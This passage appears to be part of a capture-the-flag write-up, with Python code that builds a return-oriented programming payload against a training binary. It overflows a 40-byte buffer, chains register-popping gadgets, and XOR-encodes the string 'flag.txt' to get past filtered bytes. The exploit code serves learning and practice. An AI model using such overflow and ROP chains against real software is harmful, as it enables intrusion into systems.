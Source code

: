 ```python
# don't p64() this so we can do operations on it later
DATA_ADDR = 0x601028 + 8
```

And we can start constructing our payload:

```python
# overflow buffer
payload = b'A' * 40
# ret to pop all 4 r registers
payload += POP_R12_TO_R15_GADGET
# pop xored flagpath into r12
payload += xored_flagpath
```

Wait, what's `xored_flagpath`? Well, it's not constructed yet, so why don't we write a helper function that does the work for us?

```python
def xor_bytes(u8s):
    ret = bytes()
    for u8 in u8s:
        byte = int(u8) ^ XOR_KEY
        ret += byte.to_bytes(1, "little")

    print(ret)

    return ret

xored_flagpath = xor_bytes(b"flag.txt")
# fuck you, you did it wrong
assert len(xored_flagpath) == 8, "xored flag path is %i bytes long" % len(xored_flagpath)

# it should go without saying that you put this *before* payload construction.
```

Here's the payload that we can construct so far:

```python
# overflow buffer
payload = b'A' * 40
# ret to pop all 4 r registers
payload += POP_R12_TO_R15_GADGET
# pop xored flagpath into r12
payload += xored_flagpath
# pop data address into r13
payload += p64(DATA_ADDR)
# pop nonsense into r14
payload += p64(0xffffffff)
# pop nonsense into r15
payload += p64(0xffffffff)
# mov data from r12 into [r13]
payload += MOV_R13_PTR_GADGET
```
